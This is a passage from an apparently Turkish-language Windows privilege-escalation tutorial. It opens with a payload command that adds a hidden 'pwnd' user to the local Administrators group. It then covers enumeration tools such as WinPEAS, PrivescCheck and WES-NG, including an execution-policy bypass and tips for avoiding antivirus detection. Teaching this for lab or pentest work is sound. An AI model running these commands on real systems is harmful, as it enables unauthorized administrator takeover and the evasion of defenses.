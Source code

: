     net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add

Bu, SimplePass123 parolasıyla pwnd isimli bir kullanıcı oluşturacak ve bunu yöneticilerin grubuna ekleyecektir. Eğer istismar başarılı olduysa, pwnd kullanıcısının mevcut olduğunu ve yöneticiler grubunun bir parçası olduğunu doğrulamak için aşağıdaki komutu çalıştırabilmeniz gerekir:

    PS C:\> net user pwnd
    User name                    pwnd
    Full Name
    Account active               Yes
    [...]

    Local Group Memberships      *Administrators       *Users
    Global Group memberships     *None

Son adım olarak, yönetici olarak bir komut istemi çalıştırabilirsiniz.Kimlik bilgileri istendiğinde pwnd hesabını kullanın.

## Otomatize Toollar

Sistem enumeration'unu önceki bölümlerde görülenlere benzer şekillerde yürütmek için çeşitli scriptler mevcuttur. Bu araçlar, enumeration işlem süresini kısaltabilir ve farklı potansiyel yetki yükseltme vektörlerini ortaya çıkarabilir. Ancak, otomatik araçların bazen yetki yükseltme işlemini kaçırabileceğini lütfen unutmayın.

### WinPEAS

WinPEAS, yetki yükseltme yollarını ortaya çıkarmak amacıyla hedef sistemi enumerate etmek için geliştirilmiş bir scripttir. WinPEAS hakkında daha fazla bilgi bulabilir ve önceden derlenmiş yürütülebilir dosyayı veya .bat scripti indirebilirsiniz. WinPEAS, önceki bölümlerde listelenenlere benzer komutları çalıştıracak ve çıktılarını yazdıracaktır. winPEAS'ın çıktısı uzun olabilir ve bazen okunması zor olabilir. Bu nedenle çıktıyı her zaman aşağıda gösterildiği gibi bir dosyaya yönlendirmek iyi bir uygulama olacaktır:

    winpeas.exe > output.txt

https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

### PrivescCheck

PrivescCheck, hedef sistemde yaygın yetki yükseltmeyi araştıran bir PowerShell scriptidir. WinPEAS'a bir alternatif sağlar.

Hatırlatma: PrivescCheck'i hedef sistemde çalıştırmak için yürütme politikası kısıtlamalarını atlamanız gerekebilir. Bunu başarmak için aşağıda gösterildiği gibi Set-ExecutionPolicy cmdlet'ini kullanabilirsiniz.
           
    PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
    PS C:\> . .\PrivescCheck.ps1
    PS C:\> Invoke-PrivescCheck

### WES-NG

Bazı exploit öneren scriptler (örn. winPEAS), bunları hedef sisteme yüklemenizi ve orada çalıştırmanızı gerektirir. Bu, virüsten koruma yazılımının bunları algılayıp silmesine neden olabilir. Gereksiz, dikkat çekebilecek gürültüler yapmamak için, kendi makinenizde çalışacak WES-NG'yi (örn. Kali)'de kullanmayı tercih edebilirsiniz.
